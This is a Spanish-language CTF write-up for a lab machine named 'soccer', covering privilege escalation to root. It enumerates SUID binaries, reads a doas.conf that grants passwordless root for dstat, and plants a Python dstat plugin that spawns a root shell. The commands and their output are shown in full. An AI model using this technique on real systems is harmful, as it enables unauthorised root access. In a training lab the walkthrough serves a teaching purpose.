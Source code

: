 ~~~
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/at
/snap/snapd/17883/usr/lib/snapd/snap-confine
/snap/core20/1695/usr/bin/chfn
/snap/core20/1695/usr/bin/chsh
/snap/core20/1695/usr/bin/gpasswd
/snap/core20/1695/usr/bin/mount
/snap/core20/1695/usr/bin/newgrp
/snap/core20/1695/usr/bin/passwd
/snap/core20/1695/usr/bin/su
/snap/core20/1695/usr/bin/sudo
/snap/core20/1695/usr/bin/umount
/snap/core20/1695/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1695/usr/lib/openssh/ssh-keysign
~~~
Viendo un archivo peculiar que no es conocido, "/usr/local/bin/doas".
Al intentar leerlo se ve que no tiene permisos, pero pensando, se puede deducir que cualquier binario normalmente tiene su archivo de configuración, por lo que realizando una busqueda rapida se la pudo encontrar.
~~~
player@soccer:/$ find / -name doas.conf 2>/dev/null
/usr/local/etc/doas.conf
~~~
Al leer esto, se ve que se puede ejecutar otro binario sin necesidad de colocar contraseña y con permisos se root.
~~~
player@soccer:/$ cat /usr/local/etc/doas.conf
permit nopass player as root cmd /usr/bin/dstat
~~~
Asi que buscando esto en GTFOBINS, existe pa posibilidad de manipular un script de python para abrir una sesion como root, por lo que aprovechando estos permisos se realizo lo siguiente.
~~~
player@soccer:/$ echo 'import os; os.execv("/bin/sh", ["sh"])' >/usr/local/share/dstat/dstat_123.py
player@soccer:/$ doas //usr/bin/dstat --123
doas: Operation not permitted
player@soccer:/$ doas /usr/bin/dstat --123
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
# id
uid=0(root) gid=0(root) groups=0(root)
~~~
Obteniendo de esa manera acceso al root del servidor.

---
## Root Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

Copiando el id_rsa a la maquina atacante, solo es cosa de modificar los permisos y entrar como root.
~~~bash
# cat /root/root.txt
<Encuentre su propia root flag>
~~~
De esa forma, se logro obtener la root flag.
🎉 Sistema completamente comprometido - Root obtenido

